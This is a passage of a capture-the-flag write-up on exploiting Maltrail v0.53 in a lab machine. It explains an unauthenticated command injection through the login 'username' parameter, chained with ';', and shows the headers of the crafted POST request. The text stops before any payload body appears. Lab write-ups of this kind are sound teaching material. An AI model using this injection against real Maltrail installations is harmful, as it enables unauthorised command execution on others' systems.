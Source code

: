 ![](/assets/images/writeups/sau/9.png)

# EXPLOITING INTERNAL WEB APPLICATION

From the web source HTML, we can see that the version of `Maltrail` application is `0.53`.

```html
.
SNIP
.
<div id="bottom_blank"></div>
<div class="bottom noselect">Powered by <b>M</b>altrail (v<b>0.53</b>)</div>
.
SNIP
.
```

A quick google reveals that this version of `Maltrail` is vulnerable to an unauthenticated blind OS command injection vulnerability.

During the `login` process, the application is not adequately checking the `username` parameter in `/login` endpoint, which is then passed to `subprocess.check_output` function. So we can use characters like `;` to chain aritrary OS level commands. Read more about it [here](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)

To confirm this vulnerability, we crafted a payload and sent a POST request to the `/cur1osity/login` endpoint:

```
POST /cur1osity/login HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 128
Origin: http://10.10.11.224:55555
DNT: 1
Connection: close
Referer: http://10.10.11.224:55555/cur1osity

```